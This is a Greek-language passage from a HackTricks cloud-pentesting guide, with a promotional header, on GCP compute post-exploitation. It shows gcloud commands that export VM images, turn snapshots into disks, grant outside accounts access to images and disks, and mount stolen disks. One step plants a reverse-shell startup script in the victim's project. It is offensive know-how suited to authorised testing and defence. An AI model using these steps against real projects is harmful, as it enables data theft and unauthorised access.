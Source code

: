 # GCP - Μετά την Εκμετάλλευση του Compute

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Networking) ελέγξτε:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επιτρέπει σε έναν επιτιθέμενο να **έχει πρόσβαση στα δεδομένα που περιέχονται σε ήδη υπάρχουσες εικόνες** ή να **δημιουργήσει νέες εικόνες εκτελούμενων VMs** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στο εκτελούμενο VM.

Είναι δυνατόν να εξαχθεί μια εικόνα VM σε ένα bucket και στη συνέχεια να την κατεβάσετε και να την προσαρτήσετε τοπικά με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελεστεί αυτή η ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild** καθώς είναι το **service** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο λογαριασμός cloudbuild SA και ο λογαριασμός compute SA χρειάζονται προνομιούχες άδειες.\
Ο λογαριασμός cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και ο λογαριασμός SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή και επιθεώρηση Snapshots & Disks τοπικά

Δεν είναι δυνατή η άμεση εξαγωγή snapshots και δίσκων, αλλά είναι δυνατό να **μετατραπεί ένα snapshot σε έναν δίσκο, ένας δίσκος σε μια εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξαχθεί αυτή η εικόνα για επιθεώρηση τοπικά. 

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση ενός εικόνας δημιουργώντας ένα VM

Με σκοπό την πρόσβαση στα **δεδομένα που αποθηκεύονται σε μια εικόνα** ή μέσα σε ένα **εκτελούμενο VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα**, είναι δυνατό να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε ένα νέο VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Εάν δεν μπορείτε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό στην εικόνα, μπορείτε να ξεκινήσετε έναν εικονικό υπολογιστή (VM) χρησιμοποιώντας αυτήν την εικόνα στο έργο του θύματος και να κάνετε τα μεταδεδομένα να εκτελέσουν ένα αντίστροφο κέλυφος (reverse shell) για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Επιθεώρηση ενός Snapshot/Disk προσαρτώντας το σε ένα VM

Με σκοπό την πρόσβαση στα **δεδομένα που αποθηκεύονται σε ένα δίσκο ή ένα snapshot, μπορείτε να μετατρέψετε το snapshot σε δίσκο, τον δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή μπορείτε να **χορηγήσετε πρόσβαση σε έναν εξωτερικό λογαριασμό** στον δίσκο (αν η αρχική κατάσταση είναι ένα snapshot, χορηγήστε πρόσβαση στο snapshot ή δημιουργήστε έναν δίσκο από αυτόν):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε το δίσκο** σε μια εικονική μηχανή:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Τοποθετήστε το δίσκο μέσα στην εικονική μηχανή (VM):

1. **Συνδεθείτε με SSH στην VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Αναγνωρίστε τον δίσκο**: Μόλις βρεθείτε μέσα στην VM, αναγνωρίστε τον νέο δίσκο από τη λίστα των συσκευών δίσκου. Συνήθως, μπορείτε να τον βρείτε ως `/dev/sdb`, `/dev/sdc`, κλπ.
3. **Μορφοποιήστε και τοποθετήστε τον δίσκο** (αν είναι νέος ή ακατέργαστος δίσκος):
*   Δημιουργήστε ένα σημείο προσάρτησης:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Προσαρτήστε τον δίσκο:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Εάν **δεν μπορείτε να δώσετε πρόσβαση σε ένα εξωτερικό έργο** στο αντίγραφο ασφαλείας ή τον δίσκο, μπορεί να χρειαστεί να εκτελέσετε αυτές τις ενέργειες μέσα σε μια εικονική μηχανή στο ίδιο έργο με το αντίγραφο ασφαλείας/δίσκο.
